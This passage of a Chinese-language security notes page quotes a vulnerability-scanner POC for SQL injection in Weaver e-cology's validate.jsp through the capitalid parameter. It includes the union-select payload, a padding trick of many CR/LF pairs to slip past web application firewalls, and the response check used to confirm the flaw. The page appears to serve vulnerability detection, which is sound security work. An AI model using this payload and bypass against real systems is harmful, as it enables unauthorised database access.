     >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d  # %0a-LF-换行
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d  # %0d-CR-回车
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d  # 360个%0a%0d
    >                   union+select+str({{r1}}*{{r2}})&capitalnum=-10
    >         follow_redirects: true
    >         expression: |
    >           response.status == 200 && response.body.bcontains(bytes(string(r1 * r2)))
    >       ```
    >
    > ## detail:  
    >   author: fuping  
    >   links:  
    >     - [https://news.ssssafe.com/archives/3325](https://news.ssssafe.com/archives/3325)  
    >     - [https://www.weaver.com.cn/cs/securityDownload.asp](https://www.weaver.com.cn/cs/securityDownload.asp)

- **路径**：`/cpt/manage/validate.jsp`
- **参数**：`capitalid`
- **原理：联合查询，加号、post大body绕waf**  
- **检测**：语句运算结果
- **参考**：[github.com/chaitin/xray/blob/master/pocs/ecology-validate-sqli.yml](https://github.com/chaitin/xray/blob/master/pocs/ecology-validate-sqli.yml)

---
